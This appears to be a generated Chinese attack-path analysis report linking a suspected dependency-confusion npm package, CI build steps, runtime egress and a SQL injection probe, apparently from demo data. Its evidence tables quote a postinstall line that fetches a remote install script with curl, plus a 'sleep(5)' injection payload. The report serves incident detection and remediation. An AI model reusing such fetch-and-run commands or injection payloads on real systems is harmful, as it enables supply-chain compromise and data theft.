



# 知识图谱驱动的真实攻击路径研判报告

生成时间：2026-06-12 18:29:18 UTC

## 风险摘要

- 综合风险评分：96 / 100
- 风险等级：critical
- 打开风险：24 项，其中严重风险 13 项
- 图谱节点：78 个
- 图谱关系：304 条
- 统一资产：48 个
- 证据片段：185 条
- 运行期日志事件：574 条
- 已识别攻击路径：4 条
- 可行动攻击路径：4 条
- 高度可信真实路径：0 条
- 平均路径置信度：71%
- 路径判定分布：cross-modal-corroborated-path=1, plausible-attack-path=1, provenance-risk-path=1, runtime-touched-risk=1
- 参考模型：GUAC 软件树/证据树可达性、OpenCTI observable 关系与置信度、NetworkX 路径评分、in-toto/SLSA 可信证据链、BloodHound 式入口到目标路径呈现

## 路径判定

本报告不再只列“发现了哪些漏洞”，而是判断这些证据能否串成一次真实攻击路径。

## 攻击路径

### 1. 多模态证据印证供应链投毒到运行期异常路径

一句话结论：OCR/ASR 多模态证据、规则命中、依赖/构建关系和运行期日志相互印证，能串成跨模态高可信供应链攻击路径，综合置信度 82%。

```mermaid
flowchart LR
  N1["VisualEvidence: cicd-error.png"]
  N2["MultimodalFinding: 截图或语音中出现安装脚本外联"]
  N3["RecognizedEntity: package:@acme/payments-helper"]
  N4["DependencyPackage: npm package @acme/payments-helper"]
  N5["CIStep: 构建脚本执行"]
  N6["BuildArtifact: github-actions/deploy-prod-2481"]
  N7["RuntimeService: checkout-api.prod"]
  N8["LogEvent: egress"]
  N9["AttackStage: 供应链投毒阶段"]
  N1 -->|触发规则| N2
  N2 -->|关联实体| N3
  N3 -->|关联依赖包| N4
  N4 -->|可进入构建| N5
  N5 -->|生成产物| N6
  N6 -->|部署为| N7
  N7 -->|产生日志| N8
  N8 -->|关联| N9
```

- 路径判定：cross-modal-corroborated-path
- 综合置信度：82%
- 严重级别：critical
- 路径评分：100 / 100
- 影响资产：cicd-error.png -> package:@acme/payments-helper -> npm package @acme/payments-helper -> 构建脚本执行 -> github-actions/deploy-prod-2481 -> checkout-api.prod -> egress
- 修复优先级：P0
- 攻击映射：software/evidence tree correlation, observable confidence and relationship graph, path scoring and source diversity
- 参考模型：GUAC, OpenCTI, NetworkX, Sigma, Wazuh

路径步骤：
- cicd-error.png --触发规则--> 截图或语音中出现安装脚本外联（Sigma/Wazuh，置信度 90%）：Sigma-style multimodal rule matched recognized text from this evidence source.
- 截图或语音中出现安装脚本外联 --影响资产--> package:@acme/payments-helper（FINDING_AFFECTS，置信度 86%）：Finding references the normalized asset by asset_id.
- package:@acme/payments-helper --关联依赖包--> npm package @acme/payments-helper（GUAC，置信度 88%）：GUAC-style package observable matches an SBOM dependency component.
- npm package @acme/payments-helper --可进入构建--> 构建脚本执行（GUAC，置信度 72%）：A poisoned dependency can run install-time behavior or influence generated artifacts.
- 构建脚本执行 --生成产物--> github-actions/deploy-prod-2481（SLSA/in-toto，置信度 78%）：A compromised step or builder can produce a modified artifact.
- github-actions/deploy-prod-2481 --部署为--> checkout-api.prod（ARTIFACT_DEPLOYED_AS，置信度 82%）：Workspace runtime metadata links the build artifact to the deployed service.
- checkout-api.prod --产生日志--> egress（Runtime evidence，置信度 84%）：Runtime logs show whether the build-time risk manifested after deployment.
- egress --关联--> 供应链投毒阶段（evidence，置信度 50%）：NormalizedLogEvent

可信证据链：
- GUAC：软件树中存在可达依赖节点；主体=npm package @acme/payments-helper；状态=observed
- in-toto：构建步骤将 material 转换为 product；主体=构建脚本执行；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=github-actions/deploy-prod-2481；状态=gap
- Runtime evidence：运行期行为证明风险可能已经触发；主体=egress；状态=observed

证据缺口：
- 当前路径未发现明显证据缺口。

关键封堵点：
- npm package @acme/payments-helper：固定私有源、锁定版本并清理缓存包。
- 构建脚本执行：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- github-actions/deploy-prod-2481：重新构建并校验产物哈希/provenance。
- checkout-api.prod：回滚或隔离服务实例，保留日志和镜像证据。
- egress：封禁相关来源/目的地址并扩大同时间窗排查。

证据摘要：
- image evidence: cicd-error.png：MME-20260603075345873115-DDC20BBF stored at storage/multimodal/MME-20260603075345873115-DDC20BBF-image-cicd-error.png
- 截图或语音中出现安装脚本外联：GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/paymen...
- package: @acme/payments-helper：pm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9.
- package: @acme/payments-helper：pm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9.
- visual_ocr: cicd-error.png：GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/paymen...

### 2. 证据可串成供应链投毒到运行期异常的攻击路径

一句话结论：可以串成合理攻击路径，但仍有证据缺口；当前更适合作为优先排查路径，综合置信度 71%。

- 路径判定：plausible-attack-path
- 综合置信度：71%
- 严重级别：critical
- 路径评分：100 / 100
- 影响资产：src/orders/query.py:118 -> npm package @acme/payments-helper -> 构建脚本执行 -> github-actions/deploy-prod-2481 -> checkout-api.prod -> egress
- 修复优先级：P0
- 攻击映射：T1195
- 参考模型：GUAC, SLSA, in-toto, BloodHound CE, MITRE ATT&CK STIX

路径步骤：
- src/orders/query.py:118 --声明依赖入口--> npm package @acme/payments-helper（GUAC，置信度 62%）：If the package is malicious or vulnerable, it can be selected during dependency resolution.
- npm package @acme/payments-helper --可进入构建--> 构建脚本执行（GUAC，置信度 72%）：A poisoned dependency can run install-time behavior or influence generated artifacts.
- 构建脚本执行 --生成产物--> github-actions/deploy-prod-2481（SLSA/in-toto，置信度 78%）：A compromised step or builder can produce a modified artifact.
- github-actions/deploy-prod-2481 --部署为--> checkout-api.prod（ARTIFACT_DEPLOYED_AS，置信度 82%）：Workspace runtime metadata links the build artifact to the deployed service.
- checkout-api.prod --产生日志--> egress（Runtime evidence，置信度 84%）：Runtime logs show whether the build-time risk manifested after deployment.
- egress --关联--> 供应链投毒阶段（evidence，置信度 50%）：NormalizedLogEvent

可信证据链：
- GUAC：软件树中存在可达依赖节点；主体=npm package @acme/payments-helper；状态=observed
- in-toto：构建步骤将 material 转换为 product；主体=构建脚本执行；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=github-actions/deploy-prod-2481；状态=gap
- Runtime evidence：运行期行为证明风险可能已经触发；主体=egress；状态=observed

证据缺口：
- 路径关系可达，但部分边是启发式关联；建议补充时间线、产物哈希或来源 IP 证据。

关键封堵点：
- npm package @acme/payments-helper：固定私有源、锁定版本并清理缓存包。
- 构建脚本执行：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- github-actions/deploy-prod-2481：重新构建并校验产物哈希/provenance。
- checkout-api.prod：回滚或隔离服务实例，保留日志和镜像证据。
- egress：封禁相关来源/目的地址并扩大同时间窗排查。

证据摘要：
- 未知域名外联：checkout-api -> 185.199.108.153:443
- 疑似依赖混淆包在构建阶段执行安装脚本：包名与内部私有包相同，公共源版本号更高，并包含 postinstall 外联行为。
- 订单查询接口存在 SQL 拼接风险：用户可控 order_by 字段进入 SQL 字符串拼接，缺少白名单映射。

### 3. 证据可串成构建链路完整性受损路径

一句话结论：能串成构建完整性风险路径，但还需要 provenance/attestation 才能证明产物确被篡改，综合置信度 62%。

- 路径判定：provenance-risk-path
- 综合置信度：62%
- 严重级别：critical
- 路径评分：100 / 100
- 影响资产：构建脚本执行 -> github-actions/deploy-prod-2481 -> checkout-api.prod
- 修复优先级：P0
- 攻击映射：Build provenance and integrity
- 参考模型：SLSA, in-toto, GUAC, BloodHound CE

路径步骤：
- 构建脚本执行 --生成产物--> github-actions/deploy-prod-2481（SLSA/in-toto，置信度 78%）：A compromised step or builder can produce a modified artifact.
- github-actions/deploy-prod-2481 --部署为--> checkout-api.prod（ARTIFACT_DEPLOYED_AS，置信度 82%）：Workspace runtime metadata links the build artifact to the deployed service.
- checkout-api.prod --关联--> 构建链路风险阶段（evidence，置信度 50%）：Runtime

可信证据链：
- in-toto：构建步骤将 material 转换为 product；主体=构建脚本执行；状态=needs-attestation
- SLSA：产物需要 subject digest、builder identity 和 materials provenance；主体=github-actions/deploy-prod-2481；状态=gap

证据缺口：
- 路径节点没有关联证据片段，需要补充扫描结果或日志。

关键封堵点：
- 构建脚本执行：收敛权限、固定 Action 到 commit SHA，并使用干净 runner。
- github-actions/deploy-prod-2481：重新构建并校验产物哈希/provenance。
- checkout-api.prod：回滚或隔离服务实例，保留日志和镜像证据。

证据摘要：
- 暂无证据。

### 4. 证据可串成应用漏洞被运行期探测触达的攻击路径

一句话结论：能串成运行期触达路径：静态风险点和日志探测互相印证，综合置信度 70%。

- 路径判定：runtime-touched-risk
- 综合置信度：70%
- 严重级别：high
- 路径评分：94 / 100
- 影响资产：src/orders/query.py:118 -> waf
- 修复优先级：P1
- 攻击映射：T1190
- 参考模型：SARIF, BloodHound CE, MITRE ATT&CK STIX, React Flow

路径步骤：
- src/orders/query.py:118 --运行期触达--> waf（LOG_SUPPORTS_FINDING，置信度 74%）：Code risk category and runtime SQL injection log match the application attack rule.
- waf --关联--> 应用攻击阶段（evidence，置信度 50%）：NormalizedLogEvent

可信证据链：
- Runtime evidence：运行期行为证明风险可能已经触发；主体=waf；状态=observed

证据缺口：
- 路径关系可达，但部分边是启发式关联；建议补充时间线、产物哈希或来源 IP 证据。

关键封堵点：
- waf：封禁相关来源/目的地址并扩大同时间窗排查。

证据摘要：
- SQL 注入探测：order_by payload contains sleep(5)
- 订单查询接口存在 SQL 拼接风险：用户可控 order_by 字段进入 SQL 字符串拼接，缺少白名单映射。

## 关联高危问题

| 编号 | 等级 | 评分 | 风险 | 影响资产 | 来源 |
| --- | --- | ---: | --- | --- | --- |
| finding-node:f13369fcf0078521 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:97aaa1dda7db9b21 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:fae7ec87f56d1cf1 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:88ab8ea49348d9fb | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:a1f8b27b61a1bf27 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:6cf793b6b25b0dee | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:1c20f675a47230f0 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:617c55daecfc1f62 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:b02fba9c9a6ec6ce | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:924b35866c71f9f8 | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:199b40c53d3c4edf | critical | 96 | 截图或语音中出现安装脚本外联 | multimodal_audit | Sigma-style YAML rule |
| finding-node:075ce42d7c6ab147 | critical | 96 | 疑似依赖混淆包在构建阶段执行安装脚本 | 供应链 | WorkspaceSummary |

## 证据链

| 序号 | 时间 | 证据类型 | 关联资产 | 证据摘要 | 来源模型 |
| ---: | --- | --- | --- | --- | --- |
| 1 | 2026-06-03T07:53:45 | multimodal-evidence-source | cicd-error.png | MME-20260603075345873115-DDC20BBF stored at storage/multimodal/MME-20260603075345873115-DDC20BBF-image-cicd-error.png | ASR/OCR + Sigma-style rules |
| 2 | 2026-06-03T07:53:59 | multimodal-rule-match | cicd-error.png | GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9.9.2... | Sigma-style YAML rule |
| 3 | 2026-06-03T08:00:52 | recognized-security-entity | package:@acme/payments-helper | pm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9. | Regex/Keyword Entity Extraction |
| 4 | 2026-06-03T07:53:45 | recognized-security-entity | package:@acme/payments-helper | pm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9. | Regex/Keyword Entity Extraction |
| 5 | 2026-06-03T07:53:59 | visual_ocr | cicd-error.png | GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/payments-helper r from public registry @acme/payments-helper@9.9.2... | PaddleOCR/PP-OCRv5 |
| 6 | 2026-05-30 03:18:02 | runtime-log-finding | waf | order_by payload contains sleep(5) | NormalizedLogEvent |
| 7 | 2026-05-30 03:07:04 | runtime-log-finding | egress | checkout-api -> 185.199.108.153:443 | NormalizedLogEvent |
| 8 | 2026-05-30 02:14 | workspace-finding-evidence | npm package @acme/payments-helper | 包名与内部私有包相同，公共源版本号更高，并包含 postinstall 外联行为。 | WorkspaceSummary |
| 9 | 2026-05-28 16:09 | workspace-finding-evidence | src/orders/query.py:118 | 用户可控 order_by 字段进入 SQL 字符串拼接，缺少白名单映射。 | WorkspaceSummary |

## 多模态证据融合

- 多模态证据：18 条
- 安全实体：118 个
- 规则命中：22 条
- 多模态风险：critical / 96
- 参考模型：GUAC 负责软件供应链可达关系，OpenCTI 负责 observable/置信度/first seen 语义，NetworkX 负责路径评分和多源证据连通性。

| Evidence ID | 类型 | 风险 | 关联实体 | 命中规则 | 识别文本摘要 |
| --- | --- | --- | --- | --- | --- |
| MME-20260611120040129581-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260605112212515224-D40CCA7A | image | critical / 96 | @acme/payments-helper@9.9.2, postinstall, curl, 185.199.108.153, 凌晨三点, checkout-api, 异常外联, 外联 | multimodal-postinstall-egress, multimodal-sensitive-interface-anomaly | npm install @acme/payments-helper@9.9.2 postinstall: curl http://185.199.108.153/install.sh 凌晨三点 checkout-api 出现异常外联，... |
| MME-20260605112203250782-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260603143717219602-DDC20BBF | image | low / 0 | - | - | - |
| MME-20260603080139438792-D40CCA7A | image | critical / 96 | @acme/payments-helper@9.9.2, postinstall, curl, 185.199.108.153, 凌晨三点, checkout-api, 异常外联, 外联 | multimodal-postinstall-egress, multimodal-sensitive-interface-anomaly | npm install @acme/payments-helper@9.9.2 postinstall: curl http://185.199.108.153/install.sh 凌晨三点 checkout-api 出现异常外联，... |
| MME-20260603080102092971-B4A4919E | image | high / 84 | 凌晨三点, checkout-api, 异常外联, 外联, 185.199.108.153, admin/export | multimodal-sensitive-interface-anomaly | SupplyGuard Incident Screenshot 高风险告警 时间 凌晨三点 服务 checkout-api 事件 出现异常外联 目标 185.199.108.153/install.sh 接口 admin/export... |
| MME-20260603080052880859-DDC20BBF | image | critical / 96 | 09:42:10, @acme/payments-helper@9.9.2, @acme/payments-helper, postinstall, curl, bash, 185.199.108.153 | multimodal-postinstall-egress | GitHub Actions / deploy-prod-2481 [09:42:10] Run npm ci npm install @acme/payments-helper@9.9.2 resolved @acme/paymen... |
| MME-20260603080050377411-4A1F3B72 | audio | low / 0 | - | - | 凌晨3. 赤烤雷批爱出现一场外连 atmean export 接口访问两声高 请隔离购劲产务 并负合 provenance |

## 修复建议

- **P0 · 多模态证据印证供应链投毒到运行期异常路径**：优先封堵 OCR/ASR 中识别到的依赖包、外联 IP 和敏感接口，并把同时间窗的 CI/CD、SBOM、运行日志作为取证材料保留。
- **P0 · 证据可串成供应链投毒到运行期异常的攻击路径**：隔离高危依赖，使用干净 runner 重新构建，校验产物哈希，并排查运行期外联。
- **P0 · 证据可串成构建链路完整性受损路径**：收敛 workflow 权限，第三方 Action 固定到 commit SHA，并为产物增加 provenance/attestation。
- **P1 · 证据可串成应用漏洞被运行期探测触达的攻击路径**：修复 SQL 拼接点，增加参数化查询和字段白名单，同时复核相关请求来源。

## 附录

### SBOM / Dependency-Track 风险摘要

- SBOM 组件数量：0
- 依赖风险数量：0
- 最高依赖风险：0 / 100
- VEX statement：0
- VEX affected / under investigation：0
- VEX not affected / fixed：0
- 代码可达依赖：0
- 运行期日志命中：0

### SARIF / DefectDojo 风险摘要

- SARIF 结果数量：0
- 代码风险数量：0
- CI/CD 风险数量：0

### 产物可信验证摘要

- 产物：-
- SHA256：-
- 可信评分：0 / 100
- 检查项数量：0
- 产物可信风险：0

### 日志证据摘要

- 日志风险数量：0
- 图谱证据数量：185

### 开源参考

- GUAC: https://docs.guac.sh/guac/
- GUAC Ontology: https://docs.guac.sh/guac/guac-ontology/
- MITRE ATT&CK STIX Data: https://github.com/mitre-attack/attack-stix-data
- SLSA: https://slsa.dev/spec/v1.2/provenance
- in-toto: https://github.com/in-toto/in-toto
- BloodHound CE: https://specterops.io/bloodhound-community-edition/
- NetworkX: https://networkx.org/
- React Flow: https://reactflow.dev/
- CycloneDX: https://cyclonedx.org/specification/overview/
- SARIF: https://www.oasis-open.org/standard/sarif-v2-1-0/
- OWASP Dependency-Track: https://dependencytrack.org/
- DefectDojo: https://docs.defectdojo.com/
- FFmpeg: https://www.ffmpeg.org/index.html
- OpenCV: https://opencv.org/about/

